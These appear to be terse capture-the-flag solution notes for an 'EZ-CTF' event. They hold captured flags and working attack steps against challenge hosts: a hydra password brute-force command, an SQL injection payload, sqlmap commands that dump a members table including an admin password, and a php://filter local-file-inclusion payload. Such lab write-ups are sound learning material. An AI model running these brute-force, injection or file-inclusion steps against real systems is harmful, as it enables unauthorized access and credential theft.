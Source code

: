 #### Forensics
https://docs.google.com/presentation/d/1Aapvk_kW5af4h_Ci_vLyJTYpIngtXFKB6f__ZA4KMug/edit#slide=id.g888624581b_0_419

EZ-CTF{TH1S_1S_FR33}



---

hydra -l admin -P /usr/share/wordlists/rockyou.txt http://134.209.16.75:30377/login http-post-form "/api/login:username=^USER^&password=^PASS^:Invalid username or password!

Could not successfully run query (SELECT * FROM members WHERE username = '' OR 1=1;--' AND password = '50347a3f14aea923e9f8eac867fd3bb1') from DB: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '--' AND password = '50347a3f14aea923e9f8eac867fd3bb1'' at line 1

sqlmap -r req.txt --dbs

```
available databases [6]:
[*] databasename
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
[*] sys

```

sqlmap -r  req.txt -p name -D sqli --tables --batch

```
Database: sqli
[2 tables]
+---------------+
| members       |
| preserve_user |
+---------------+


```

sqlmap -r  req.txt -p name -D sqli -T members --columns --batch


```

Database: sqli
Table: members
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| password | longtext |
| user_id  | int      |
| username | longtext |
+----------+----------+


```

sqlmap -r  req.txt -p name -D sqli -T members -C username --dump-all --batch


```
+---------+------------------------+----------+
| user_id | password               | username |
+---------+------------------------+----------+
| 111     | deh8923uxh2iux22343fw4 | admin    |
+---------+------------------------+----------+

```

```
Database: mysql
[37 tables]
+------------------------------------------------------+
| user                                                 |
| columns_priv                                         |
| component                                            |
| db                                                   |
| default_roles                                        |
| engine_cost                                          |
| func                                                 |
| general_log                                          |
| global_grants                                        |
| gtid_executed                                        |
| help_category                                        |
| help_keyword                                         |
| help_relation                                        |
| help_topic                                           |
| innodb_index_stats                                   |
| innodb_table_stats                                   |
| password_history                                     |
| plugin                                               |
| procs_priv                                           |
| proxies_priv                                         |
| replication_asynchronous_connection_failover         |
| replication_asynchronous_connection_failover_managed |
| replication_group_configuration_version              |
| replication_group_member_actions                     |
| role_edges                                           |
| server_cost                                          |
| servers                                              |
| slave_master_info                                    |
| slave_relay_log_info                                 |
| slave_worker_info                                    |
| slow_log                                             |
| tables_priv                                          |
| time_zone                                            |
| time_zone_leap_second                                |
| time_zone_name                                       |
| time_zone_transition                                 |
| time_zone_transition_type                            |
+------------------------------------------------------+
```

EZ-CTF{N0t_S0_S4f3_4ft3r_411}

---

http://ez.ctf.cafe:9999/robots.txt

User-agent: *
Disallow: /flag.php

http://ez.ctf.cafe:9999/flag.php

How do you filter your coffee?

Desligar CSS para poder ver o parametro file do LFI

http://ez.ctf.cafe:9999/blog-posts.php?file=php://filter/convert.base64-encode/resource=flag.php


PD9waHAKCWVjaG8gJ0hvdyBkbyB5b3UgZmlsdGVyIHlvdXIgY29mZmVlPyc7ICAgIAoJLy8gRVotQ1RGe0xGSV8xU18zWn0KPz4K

EZ-CTF{LFI_1S_3Z}


---
Alien Dream

EZ-CTF{Steven_Boone_Amy_Cordova_Boone_Land_of_Enchantment}
EZ-CTF{steven_Boone_Amy_CordovaBoone_LandOfEnchantment}

---
teclas do telemovel antigo 

```
8/44/444/7777\\\444/7777\\\8/44/33\\\555/2/6/33/7777/8\\\222/8/333\\\333/555/2/4\\\33/888/33/33/33/33/777

```

EZ-CTF{this_is_the_lamest_ctf_flag_eveeeer}
all-caps
EZ-CTF{THIS_IS_THE_LAMEST_CTF_FLAG_EVEEEER}

---

steghide extract -sf Bernie 
passphrase: nao tinha 

cat FlagHere.txt 
```
28x\32x\38x\28x\32x\38x\28x\32x\38x\28x\32x\38xE\28x\32x\38x\28x\32x\38xZ\28x\32x\38x-\28x\32x\38xC\28x\32x\38x\28x\32x\38xT\28x\32x\38xF\28x\32x\38x{N\28x\32x\38xO\28x\32x\38xW\28x\32x\38x_\28x\32x\38x\28x\32x\38xY\28x\32x\38x\28x\32x\38xO\28x\32x\38xU_\28x\32x\38xS\28x\32x\38x\28x\32x\38x\28x\32x\38x\28x\32x\38xE\28x\32x\38x\28x\32x\38xE\28x\32x\38x_\28x\32x\38xM\28x\32x\38xE\28x\32x\38x\28x\32x\38x_\28x\32x\38xN\28x\32x\38xI\28x\32x\38x\28x\32x\38xC\28x\32x\38xE\28x\32x\38x}\28x\32x\38x\28x\32x\38x\28x\32x\38x\28x\32x\38x\28x\32x\38x\28x\32x\38x

```

```
28 32 38 28 32 38 28 32 38 28 32 38 E 28 32 38 28 32 38 Z 28 32 38 - 28 32 38 C 28 32 38 28 32 38 T 28 32 38 F 28 32 38 {N 28 32 38 O 28 32 38 W 28 32 38 _ 28 32 38 28 32 38 Y 28 32 38 28 32 38 O 28 32 38 U_ 28 32 38 S 28 32 38 28 32 38 28 32 38 28  32 38 E 28 32 38 28 32 38 E 28 32 38 _ 28 32 38 M 28 32 38 E 28 32 38 28 32 38 _ 28 32 38 N 28 32 38 I 28 32 38 28 32 38 C 28 32 38 E 28 32 38} 28 32 38 28 32 38 28 32 38 28 32 38 28 32 38 28 32 38

```

```
EZ-CTF{NOW_YOU_SEE_ME_NICE} 28 32 38 28 32 38 28 32 38 28 32 38 28 32 38 28 32 38

```

---

NEO

EZ-CTF{Y0U_T00K_TH3_R3D_P1LL_D1DNT_Y0U}

EZ-CTF{YOU_TOOK_THE_RED_PILL_DIDNT_Y0U}

---


EZ-CTF{LFI_1S_3Z}